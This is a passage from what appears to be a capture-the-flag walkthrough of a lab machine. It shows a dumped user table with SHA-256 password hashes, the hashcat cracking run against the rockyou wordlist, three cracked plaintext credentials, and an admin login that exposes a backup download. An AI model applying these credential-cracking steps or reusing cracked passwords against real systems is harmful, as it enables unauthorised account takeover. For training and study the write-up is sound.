 ![image](https://user-images.githubusercontent.com/10210108/83362598-94fcba00-a360-11ea-9608-a5537943cf1e.png)

```
	
0	
_id	"59a7365b98aa325cc03ee51c"
username	"myP14ceAdm1nAcc0uNT"
password	"dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af"
is_admin	true
1	
_id	"59a7368398aa325cc03ee51d"
username	"tom"
password	"f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240"
is_admin	false
2	
_id	"59a7368e98aa325cc03ee51e"
username	"mark"
password	"de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73"
is_admin	false
3	
_id	"59aa9781cced6f1d1490fce9"
username	"rastating"
password	"5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0"
is_admin	false
```
I used hash-identifier to determine hash type. I decided to go with SHA-256 because it's the more common of the two.

![image](https://user-images.githubusercontent.com/10210108/83362759-aa261880-a361-11ea-8617-9da3ec008fd4.png)

I copied the hashes to a file on my physical machine and ran hashcat with -m 1400 for SHA2-256 -a 0 for straight attack mode. 

```
.\hashcat64.exe -m 1400 -a node-hashes.txt rockyou.txt
```

I was able to crack 3 of the 4 hashes

![image](https://user-images.githubusercontent.com/10210108/83362927-3422b100-a363-11ea-849c-74200f1676e1.png)

```
myP14ceAdm1nAcc0uNT:manchester
tom:spongebob
mark:snowflake
ratating: <unable to crack>
```

On the main MYPLACE page I clicked login and was able to authenticate successfully with myP14ceAdm1nAcc0uNT:manchester. The only change after logging in is a button called "download backup". Clicking the button downloads a file called "myplace.backup".

![image](https://user-images.githubusercontent.com/10210108/83363008-e8bcd280-a363-11ea-9e5f-c88a538bfb0b.png)
